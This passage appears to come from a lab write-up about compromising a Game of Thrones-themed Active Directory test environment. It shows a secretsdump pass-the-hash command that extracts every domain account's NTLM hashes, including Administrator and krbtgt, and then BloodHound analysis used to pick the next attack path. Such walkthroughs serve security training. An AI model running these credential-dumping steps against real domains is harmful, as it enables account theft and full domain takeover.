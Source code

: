 It worked! Only thing left to do was to dump out hashes and wrap up compromise of this domain.

```
# secretsdump.py essos.local/meereen\$@10.2.10.12 -hashes :f9ad1333f42690227ac5c70d9d2ccd4e -just-dc-ntlm

Impacket v0.11.0 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4238192ee115bf46fc403bcef5db2e41:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
daenerys.targaryen:1112:aad3b435b51404eeaad3b435b51404ee:34534854d33b398b66684072224bb47a:::
viserys.targaryen:1113:aad3b435b51404eeaad3b435b51404ee:d96a55df6bef5e0b4d6d956088036097:::
khal.drogo:1114:aad3b435b51404eeaad3b435b51404ee:739120ebc4dd940310bc4bb5c9d37021:::
jorah.mormont:1115:aad3b435b51404eeaad3b435b51404ee:4d737ec9ecf0b9955a161773cfed9611:::
missandei:1116:aad3b435b51404eeaad3b435b51404ee:1b4fd18edf477048c7a7c32fda251cec:::
drogon:1117:aad3b435b51404eeaad3b435b51404ee:195e021e4c0ae619f612fb16c5706bb6:::
sql_svc:1118:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
MEEREEN$:1001:aad3b435b51404eeaad3b435b51404ee:f9ad1333f42690227ac5c70d9d2ccd4e:::
BRAAVOS$:1104:aad3b435b51404eeaad3b435b51404ee:db93da51a29078cf72b2afde13010606:::
gmsaDragon$:1119:aad3b435b51404eeaad3b435b51404ee:8d80f65810e84ace68363b8dc91ed903:::
SEVENKINGDOMS$:1105:aad3b435b51404eeaad3b435b51404ee:e856402d05ac62577da64cf56f95bd69:::
[*] Cleaning up...
```

<b>ESSOS.LOCAL = owned!</b>

After the compromise I decided to explore Bloodhound to see if any of the `ESSOS` users had any interesting permissions over users or groups in `SEVENKINGDOMS.LOCAL`. 

The `MISSANDEI` account had `GenericAll` rights over `KHAL.DROGO`, which essentially meant that `MISSANDEI` had full control over that account. In my case, I did not care as I had `KHAL.DROGO`‘s hash anyway.

`JORAH.MORMONT` had some interesting group memberships, mainly the `REMOTE DESKTOP USERS` group. Ultimately, nothing that would be useful to me immediately.

The other users also had some permissions, but mainly ones that affected each other. However, the dragon queen herself, `DAENERYS.TARGARYEN`, held membership in `ACROSSTHENARROWSEE@SEVENKINGDOMS.LOCAL` group. The group granted `GenericAll` permissions over the `KINGSLANDING` DC of `SEVENKINGDOMS`. Well that would be my attack path to compromise the final domain!

<div style="text-align:center"><img src="img14.webp"></div>
